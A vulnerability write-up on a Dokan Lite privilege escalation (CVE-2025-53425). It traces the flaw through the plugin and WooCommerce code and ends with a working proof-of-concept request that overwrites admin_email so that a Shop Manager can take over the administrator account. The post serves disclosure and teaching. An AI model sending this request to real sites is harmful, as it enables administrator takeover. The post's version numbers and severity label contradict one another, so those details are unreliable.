


# CVE-2025-53425 Analysis & POC


<!--more-->

## CVE & Basic Info

An **Incorrect Privilege Assignment** vulnerability in **Dokan, Inc. Dokan dokan-lite** allows **Privilege Escalation**. This issue affects **Dokan** from **n/a** through **<= 4.1.2**.

* **CVE ID**: [CVE-2025-53425](https://www.cve.org/CVERecord?id=CVE-2025-53425)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: <= 4.1.3
* **Patched Versions**: 4.1.4
* **CVSS severity**: Medium (7.2)
* **Required Privilege**: Shop manager
* **Product**: [WordPress Dokan Plugin](https://wordpress.org/plugins/dokan-lite/)


## Requirements

* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Dokan**:  
    * `4.1.3` – **vulnerable**  
    * `4.1.4` – **patched**
* **WooCommerce Plugin** → [**WooCommerce**](https://wordpress.org/plugins/woocommerce/)
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

> [!NOTE]
> The plugin **requires WooCommerce to operate**, as it **integrates and works directly with WooCommerce** to manage **products, orders, and the payment workflow**.

## Analysis

The plugin registers the following action hook:

```php {title="Settings.php v4.1.3" hl_lines=[] data-open=true}
add_action( 'wp_ajax_dokan_save_settings', [ $this, 'save_settings_value' ], 10 );
```

`wp_ajax_` is a hook for **authenticated users**.
When a request is sent to `/wp-admin/admin-ajax.php` with `action=dokan_save_settings`, the callback `save_settings_value()` is executed:

```php {title="Settings.php v4.1.3" hl_lines=[3,15,16,25] data-open=true}
public function save_settings_value() {
    try {
        if ( ! current_user_can( 'manage_woocommerce' ) ) {
            throw new DokanException( 'dokan_settings_unauthorized_operation', __( 'You are not authorized to perform this action.', 'dokan-lite' ), 401 );
        }

        if ( ! isset( $_POST['nonce'] ) || ! wp_verify_nonce( sanitize_key( wp_unslash( $_POST['nonce'] ) ), 'dokan_admin' ) ) {
            throw new DokanException( 'dokan_settings_invalid_nonce', __( 'Invalid nonce', 'dokan-lite' ), 403 );
        }

        if ( empty( $_POST['section'] ) ) {
            throw new DokanException( 'dokan_settings_error_saving', __( '`section` parameter is required.', 'dokan-lite' ), 400 );
        }

        $option_name  = sanitize_text_field( wp_unslash( $_POST['section'] ) );
        $option_value = $this->sanitize_options( wp_unslash( $_POST['settingsData'] ), 'edit' ); // phpcs:ignore
        $option_value = apply_filters( 'dokan_save_settings_value', $option_value, $option_name );
        $old_options  = get_option( $option_name, [] );

        /**
         * @since 3.5.1 added $old_options parameter
         */
        do_action( 'dokan_before_saving_settings', $option_name, $option_value, $old_options );

        update_option( $option_name, $option_value );

        /**
         * @since 3.5.1 added $old_options parameter
         */
        do_action( 'dokan_after_saving_settings', $option_name, $option_value, $old_options );

        // only flush rewrite rules if store url has been changed
        if ( 'dokan_general' === $option_name && isset( $old_options['custom_store_url'] ) && $old_options['custom_store_url'] !== $option_value['custom_store_url'] ) {
            dokan()->rewrite->register_rule();
            flush_rewrite_rules();
        }

        wp_send_json_success(
            [
                'settings' => [
                    'name'  => $option_name,
                    'value' => apply_filters( 'dokan_get_settings_values', $this->sanitize_options( $option_value, 'read' ), $option_name ),
                ],
                'message'  => __( 'Setting has been saved successfully.', 'dokan-lite' ),
            ]
        );
    } catch ( Exception $e ) {
        $error_code = $e->getCode() ? $e->getCode() : 422;

        wp_send_json_error( new WP_Error( 'dokan_settings_error', $e->getMessage() ), $error_code );
    }
}
```

The function checks user privileges using:

```php
current_user_can( 'manage_woocommerce' )
```

`manage_woocommerce` is a **capability registered by WooCommerce**.

This capability is defined in `get_core_capabilities()`:

```php {title="woocommerce/includes/class-wc-install.php" hl_lines=[5] data-open=true}
public static function get_core_capabilities() {
    $capabilities = array();

    $capabilities['core'] = array(
        'manage_woocommerce',
        'create_customers',
        'view_woocommerce_reports',
    );

    $capability_types = array( 'product', 'shop_order', 'shop_coupon' );

    foreach ( $capability_types as $capability_type ) {

        $capabilities[ $capability_type ] = array(
            // Post type.
            "edit_{$capability_type}",
            "read_{$capability_type}",
            "delete_{$capability_type}",
            "edit_{$capability_type}s",
            "edit_others_{$capability_type}s",
            "publish_{$capability_type}s",
            "read_private_{$capability_type}s",
            "delete_{$capability_type}s",
            "delete_private_{$capability_type}s",
            "delete_published_{$capability_type}s",
            "delete_others_{$capability_type}s",
            "edit_private_{$capability_type}s",
            "edit_published_{$capability_type}s",

            // Terms.
            "manage_{$capability_type}_terms",
            "edit_{$capability_type}_terms",
            "delete_{$capability_type}_terms",
            "assign_{$capability_type}_terms",
        );
    }

    return $capabilities;
}
```

This function defines **core WooCommerce capabilities**, including:

* `manage_woocommerce`
* `create_customers`
* `view_woocommerce_reports`

These capabilities are later assigned to user roles in `create_roles()`:

```php {title="woocommerce/includes/class-wc-install.php" hl_lines=[54] data-open=true}
public static function create_roles() {
    ...
    // Shop manager role.
    add_role(
        'shop_manager',
        'Shop manager',
        array(
            'level_9'                => true,
            'level_8'                => true,
            'level_7'                => true,
            'level_6'                => true,
            'level_5'                => true,
            'level_4'                => true,
            'level_3'                => true,
            'level_2'                => true,
            'level_1'                => true,
            'level_0'                => true,
            'read'                   => true,
            'read_private_pages'     => true,
            'read_private_posts'     => true,
            'edit_posts'             => true,
            'edit_pages'             => true,
            'edit_published_posts'   => true,
            'edit_published_pages'   => true,
            'edit_private_pages'     => true,
            'edit_private_posts'     => true,
            'edit_others_posts'      => true,
            'edit_others_pages'      => true,
            'publish_posts'          => true,
            'publish_pages'          => true,
            'delete_posts'           => true,
            'delete_pages'           => true,
            'delete_private_pages'   => true,
            'delete_private_posts'   => true,
            'delete_published_pages' => true,
            'delete_published_posts' => true,
            'delete_others_posts'    => true,
            'delete_others_pages'    => true,
            'manage_categories'      => true,
            'manage_links'           => true,
            'moderate_comments'      => true,
            'upload_files'           => true,
            'export'                 => true,
            'import'                 => true,
            'list_users'             => true,
            'edit_theme_options'     => true,
        )
    );

    $capabilities = self::get_core_capabilities();

    foreach ( $capabilities as $cap_group ) {
        foreach ( $cap_group as $cap ) {
            $wp_roles->add_cap( 'shop_manager', $cap );
            $wp_roles->add_cap( 'administrator', $cap );
        }
    }
}
```

This function creates and configures user roles. The **`shop_manager` role** is granted many high-level permissions, nearly equivalent to **Administrator**, including:

* Managing posts, pages, and comments
* Uploading files, import/export
* `edit_theme_options`

All WooCommerce core capabilities are then assigned to:

* `shop_manager`
* `administrator`

```php
$wp_roles->add_cap( 'shop_manager', $cap );
$wp_roles->add_cap( 'administrator', $cap );
```

This means **Shop Manager has the `manage_woocommerce` capability**.

Therefore, for `save_settings_value()` to continue execution, the user must have the **Shop Manager** role. Such a user can be created via the WordPress Admin Dashboard.


As the function name suggests, `save_settings_value()` is responsible for saving **Dokan settings**.


Using a **debugger**, a **breakpoint** is set at `save_settings_value()` and the settings are saved from the admin UI.

If the debugger works correctly, execution stops at the breakpoint, confirming:

* The settings save request reaches `save_settings_value()`
* The current user **passes the `manage_woocommerce` check**
* The `dokan_admin` nonce is **valid**



This confirms that the settings-saving functionality can be executed successfully and behaves exactly as analyzed.

The **root cause of the vulnerability** lies here:

```php
$option_name  = sanitize_text_field( wp_unslash( $_POST['section'] ) );
$option_value = $this->sanitize_options( wp_unslash( $_POST['settingsData'] ), 'edit' );
update_option( $option_name, $option_value );
```

This code allows **request data to be written directly to `wp_options`**.

The user can **fully control `$option_name` via the `section` parameter**. Although the data is sanitized, there is **no whitelist restricting which options may be updated**.

Combined with the fact that **Shop Manager has `manage_woocommerce`**, a **non-Administrator role** can:

* Write or overwrite **any option** in the system
* Modify **global WordPress/Dokan configuration**

This results in **Privilege Escalation**, as a lower-privileged user can perform actions intended only for **Administrators** by manipulating sensitive database options.

> [!NOTE]
> A common **Privilege Escalation** scenario via `update_option()` is:
>
> * Set `users_can_register = 1` → enable user registration
> * Set `default_role = administrator` → new users become Administrators
>
> However, when using **WooCommerce with Dokan**, user registration does **not** use WordPress’s default `/wp-login.php?action=register` endpoint, but instead `/my-account/`.
>
> 
>
> This flow only allows registration as **Customer** or **Vendor**, making the above scenario infeasible.
>
> Nevertheless, an attacker can exploit another vector by **changing the `admin_email` option**, allowing them to:
>
> * Set the admin email to an attacker-controlled address
> * Use the **Forgot Password** function
> * Take over the **Administrator account**
>
> Example database check:
>
> ```
> mysql> select * from wp_options where option_name = 'admin_email';
> +-----------+-------------+-----------------+----------+
> | option_id | option_name | option_value    | autoload |
> +-----------+-------------+-----------------+----------+
> |         7 | admin_email | admin@gmail.com | on       |
> +-----------+-------------+-----------------+----------+
> 1 row in set (0.001 sec)
> ```
>
> This still results in **Privilege Escalation**, not by creating a new admin, but by **taking over an existing one**.

---

The **v4.1.3 patch** added **validation and restriction of `option_name`**, allowing updates only to options belonging to valid settings sections:

```php
// validate and sanitize option name to avoid any unwanted option update
if ( ! in_array( $option_name, wp_list_pluck( $this->get_settings_sections(), 'id' ), true ) ) {
    throw new DokanException( 'dokan_settings_invalid_section', __( 'Invalid section name.', 'dokan-lite' ), 400 );
}
```

As a result, users **can no longer arbitrarily specify option names**, preventing overwriting sensitive options such as `admin_email`, and **mitigating the Privilege Escalation vulnerability**.

## Flow

flowchart TD
A["Shop Manager (Authenticated User)"]
--> B["Click Save Settings (Dokan Admin UI)"]

B --> C["POST /wp-admin/admin-ajax.php"]
C --> D["action=dokan_save_settings"]

D --> E["wp_ajax_dokan_save_settings"]
E --> F["Settings::save_settings_value()"]

F --> G{"current_user_can('manage_woocommerce')?"}
G -- No --> H["Abort"]
G -- Yes --> I{"Nonce dokan_admin valid?"}

I -- No --> J["Abort"]
I -- Yes --> K["Read POST parameters"]

K --> L["section taken as option_name"]
L --> M["settingsData taken as option_value"]

M --> N["update_option(option_name, option_value)"]
N --> O["Sensitive wp_options modified"]

O --> P["Change admin_email"]
P --> Q["Use Forgot Password"]
Q --> R["Take over Administrator account"]


## Proof of Concept (PoC)

1. Visit `http://localhost/wp-admin/admin.php?page=dokan#/settings` and click **Save Changes**
2. Intercept the request with Burp Proxy
3. Replay the request with modified parameters:

   * `section=admin_email`
   * `settingsData=attacker@gmail.com`

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: shop_manager_cookie

action=dokan_save_settings&nonce=d7311ec197&settingsData=attacker@gmail.com&section=admin_email
```


## Conclusion

The vulnerability in **Dokan Lite ≤ 4.1.3** is caused by **insufficient privilege enforcement**. Relying solely on `manage_woocommerce` allows **Shop Manager** users to invoke settings-saving functionality and overwrite **arbitrary WordPress options** via `update_option()`, resulting in **Privilege Escalation** (e.g., administrator takeover via `admin_email`).

## Key Takeaways

* `manage_woocommerce` is **too broad** for system-wide actions
* **Shop Manager should not be allowed to modify global system options**
* `update_option()` must be protected with **strict option whitelisting** or **Administrator-only access**

## References
[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Dokan Plugin <= 4.1.3 is vulnerable to a medium priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/dokan-lite/vulnerability/wordpress-dokan-plugin-4-0-8-privilege-escalation-vulnerability) 

---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2026-01-04-cve-2025-53425/  

